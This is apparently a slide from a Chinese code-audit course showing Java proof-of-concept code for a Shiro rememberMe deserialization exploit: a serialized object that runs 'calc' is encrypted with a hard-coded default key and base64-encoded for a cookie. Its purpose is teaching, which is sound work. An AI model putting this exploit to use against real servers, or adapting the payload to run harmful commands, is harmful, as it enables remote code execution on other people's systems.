

# 代码审计-源码分析
下面演示了执行恶意代码(打开计算器)的程序源码，运行Demo1代码之后生成的字符串通过burp抓包放到cookie的rememberMe中
public class Demo1 extends AesUtils {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        Test test = new Test();
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        // 1. 序列化恶意对象
        // 创建对象输出流，用于序列化对象
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(test);
        // 2. 加密而已对象（byte数组）
        AesUtils aesUtils = new AesUtils();
        byte[] encryptByte = aesUtils.encrypt(baos.toByteArray());
        // 3. 转为base64
        String base64 = Base64.encodeToString(encryptByte);
        System.out.println(base64);
    }
}
class Test implements Serializable {
    private void readObject(ObjectInputStream in) {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
public class AesUtils {
    private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");
    private Serializer<PrincipalCollection> serializer = new DefaultSerializer();
    private CipherService cipherService = new AesCipherService();
    private byte[] encryptionCipherKey;
    private byte[] decryptionCipherKey;
    public AesUtils() {
        this.setCipherKey(DEFAULT_CIPHER_KEY_BYTES);
    }
    protected byte[] encrypt(byte[] serialized) {
        byte[] value = serialized;
        CipherService cipherService = this.getCipherService();
        if (cipherService != null) {
            ByteSource byteSource = cipherService.encrypt(serialized, this.getEncryptionCipherKey());
            value = byteSource.getBytes();
        }
        return value;
    }
162